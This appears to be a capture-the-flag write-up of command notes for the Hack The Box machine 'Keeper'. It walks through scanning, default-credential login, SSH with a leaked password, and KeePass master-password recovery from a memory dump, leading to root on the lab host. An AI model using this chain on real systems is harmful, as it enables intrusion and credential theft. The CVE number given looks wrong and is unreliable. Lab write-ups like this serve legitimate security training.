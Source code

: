 # 💎 HTB: Keeper - Command Notes

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.227          # Full port scan
nmap -p 22,80 -sCV 10.10.11.227                 # Version and script scan
ffuf -u http://10.10.11.227 -H "Host: FUZZ.keeper.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
echo "10.10.11.227 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
```

---

## 🔐 Request Tracker Access

```text
URL: http://tickets.keeper.htb/rt/
Username: root
Password: password
```

> Default credentials work. One support ticket reveals a KeePass memory dump.

---

## 🧑‍💻 [Shell as lnorgaard](SSH)

```bash
sshpass -p 'Welcome2023!' ssh lnorgaard@keeper.htb
cat user.txt
```

---

## 🧠 KeePass Dump Analysis

Files found:

```bash
scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
unzip RT30000.zip
# -> KeePassDumpFull.dmp (RAM dump)
# -> passcodes.kdbx (KeePass database)
```

---

## 📥 CVE-2022-32784 - KeePass Password Disclosure

**References:**

- [GitHub - vdohney/keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper)

### 🪟 Windows (DotNet)

```powershell
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run Z:\path\to\KeePassDumpFull.dmp
```

### 🐧 Linux (Docker workaround)

```bash
docker run --rm -it -v $(pwd):/data mcr.microsoft.com/dotnet/sdk:7.0.100
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
dotnet run /data/KeePassDumpFull.dmp
```

> Recovers: `●rødgrød med fløde`

---

## 🔓 KeePass Access

```bash
apt install kpcli
kpcli --kdb passcodes.kdbx
# Master password: rø dgrød med fløde
```

Useful credentials:

- **User:** root  
- **Notes:** PuTTY private key in legacy format

---

## 🔁 PuTTY to OpenSSH Key Conversion

```bash
apt install putty-tools
puttygen root-putty.key -O private-openssh -o keeper-root.key
chmod 600 keeper-root.key
```

---

## 🧑‍🚀 Root Access

```bash
ssh -i keeper-root.key root@keeper.htb
cat /root/root.txt
```